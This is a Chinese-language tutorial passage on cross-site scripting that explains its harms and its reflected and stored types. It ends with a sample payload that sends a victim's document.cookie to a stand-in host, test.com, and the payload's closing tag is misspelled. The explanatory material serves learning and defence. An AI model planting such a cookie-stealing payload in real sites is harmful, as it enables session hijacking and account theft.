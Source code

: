 # xss

XSS, 即为（Cross Site Scripting）, 中文名为跨站脚本, 是发生在目标用户的浏览器层面上的，当渲染DOM树的过程成发生了不在预期内执行的JS代码时，就发生了XSS攻击。

**xss的危害：**

(1)网络钓鱼，包括获取各类用户账号

(2)通过document.cookie盗取cookie

(3)会话劫持，从而执行任意操作，例如进行非法转账，强制发表日志、发送电子邮件等

(4)网页挂马

(5)弹出广告，刷流量

(6)篡改页面信息,使用js或css破坏页面正常的结构与样式,，删除文章等

(7)进行大量用户攻击，如DDoS攻击

(8)传播跨站脚本蠕虫

(9)获取用户的客户端信息，例如ip地址，浏览历史，开放端口号等

(10)结合其他攻击，例如CSRF，进行进一步攻击

...

### 1.xss分类

(1)反射型

反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。

(2)存储型

存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。

最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

### 2.xss攻击方式解析

(1)cookie 盗取

原理：
  
在一个具有存储型xss(或者反射型)的网站里，攻击者就可以向漏洞页面写入可以窃取cookie的恶意代码，当用户浏览页面时，攻击者就能获取用户浏览器中的cookie信息。

攻击者可以用以下几种方式窃取cookie信息：

```html
<script>document.location="http://www.test.com/cookie.asp?cookie="+document.cookie</srcipt>

```





